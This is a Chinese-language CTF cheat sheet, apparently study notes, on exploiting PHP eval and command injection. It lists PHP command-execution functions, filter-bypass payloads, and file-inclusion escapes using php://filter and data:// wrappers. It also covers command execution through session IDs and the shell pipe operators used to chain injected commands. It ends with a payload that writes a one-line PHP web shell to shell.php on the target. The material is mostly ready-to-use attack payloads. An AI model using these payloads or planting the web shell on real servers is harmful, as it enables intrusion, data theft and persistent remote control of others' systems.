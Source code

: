 
**用eval执行Linux命令**

## eval执行（注意需加分号）

注入方式例如:/?cmd=system('ls')

request = post + get

- `system()`

	对某些指令进行执行的函数，比如：ls、cat、whoami、ifconfig等指令

- `passthru()`

	与system用法基本一致，在system函数被过滤后考虑使用

- `exec()`

  不回显，一般使用管道符`| tee（覆盖文件）或 | tee -a（追加文件）或  >`导入文件中访问 

- `shell_exec()` 

- `popen()` 

- `proc_open()` 

- `pcntl_exec()`

- 反引号

- `$()`   ` //￥加圆括号`

- `var_dump(`\`nl%20/f???\`);`

- `printf(`\`c\at+/fffffffffflagafag\`);`

用find命令找flag文件
```
find / -name flag.txt
```

**常用payload**

```
echo `nl flag.php`；

system()

passthru()

echo`strings%09f*`;

param=`$_GET[1]`;&1=bash
```

**配合文件包含**

```
用文件包含include()，include可以无括号包含，分号`;`可以用`?>`代替，与前面形成闭合，这样就可以做到参数逃逸

c=include%09$_GET[a]?>&a=php://filter/read=convert.base64-encode/resource=flag.php

?c=include%09$_GET[a]?>&a=data://,<?php eval(system('cat flag.php'));?>

传参时不能用双引号
```

## PHP短标签

```
<?=$a?>
<?=(表达式)?> 
就相当于 
<?php echo $a?> 
<?php echo (表达式)?>

(注意：这种写法在php配置中默认关闭了的,如果要正常输出，需要配置php.ini文件。在配置文件中找到asp_tags=off ,将off改为on。改动配置文件后需要重启apache。)
```

**通过cookie命令执行**

```
c=session_start();system(session_id());
passid=ls
```

##### Windows系统支持的管道符如下：

1. “|”：直接执行后面的语句。

2. “||”：如果前面的语句执行失败，则执行后面的语句，前面的语句只能为假才行。

3. “&”：两条命令都执行，如果前面的语句为假则直接执行后面的语句，前面的语句可真可假。

4. “&&”：如果前面的语句为假则直接出错，也不执行后面的语句，前面的语句为真则两条命令都执行，前面的语句只能为真

   

##### Linux系统支持的管道符如下：

1. “;”：执行完前面的语句再执行后面的语句。

2. “|”：显示后面语句的执行结果。

3. “||”：当前面的语句执行出错时，执行后面的语句。

4. “&”：两条命令都执行，如果前面的语句为假则执行执行后面的语句，前面的语句可真可假。

5. “&&”：如果前面的语句为假则直接出错，也不执行后面的语句，前面的语句为真则两条命令都执行

   

#### 思路一：直接通过管道符拼接，使用命令查看flag

#### 思路二：通过重定向，向服务器注入一句话木马，获得shell,再用蚁剑连接
```
127.0.0.1&echo -e "<?php @eval($_POST['shell']);?>" > shell.php
```
